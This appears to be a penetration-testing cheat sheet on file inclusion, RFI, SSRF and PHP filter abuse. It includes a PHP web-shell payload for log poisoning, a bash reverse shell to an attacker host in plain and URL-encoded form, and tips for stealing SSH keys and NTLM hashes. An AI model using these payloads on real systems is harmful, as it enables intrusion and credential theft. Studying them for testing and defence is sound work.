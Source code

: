 # File Inclusion/Upload

## LFI

LFI is when we can include a local file on the target.
This will often be insecure php servers where we are able to include unfortunate php files that are not meant to be executed.
If we can do log poisoning, this will for instance allow us to do something like writing this payload to a log:

```
<?php echo system($_GET['cmd']); ?>
```
and then calling the URL where the log is stored with the query param `cmd=$command`
If the log has been poisoned as is executed server side, the given command will be executed and shown in the response on the page.

The cmd could for instance be a bash one-liner for a reverse-shell:

```
bash -c "bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
```

Which could be url-encoded as it contains special characters:

```
bash%20-c%20%22bash%20-i%20%3E&%20/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT%200%3E&1
```


When looking for private keys with LFI, remember to try all typical key formats:

* `id_rsa`
* `id_ed25519`
* `id_ecdsa` 


## RFI

RFI happens if we are able to refer a file on our attackbox which will be executed.
This could be a payload such as [the php payload](../payloads-n-scripts/reverse-shells/shell.php) exposed by a server on the attackbox. 

When you see a parameter or input field refering to "some URL", try to point it to your own web server and see if you get a directory listing.

## SSRF

Similar to RFI, SSRF is when we can get the web server to make an unintended request.
For windows servers, this can trick the server into including it's NTLMv2 hashes in it's request.

Setup a responder `sudo responder -I tun0 -A`, and point it at your server.
Remember to try both `http://` and `file://` as protocols.

## PHP Filters

Filters such as `filter://` and `data://` can be used for LFI to include files that would otherwise not have been included.
Sometimes this can either allow us to simply read the php files in the http responses, or we can even use it to execute them server side.






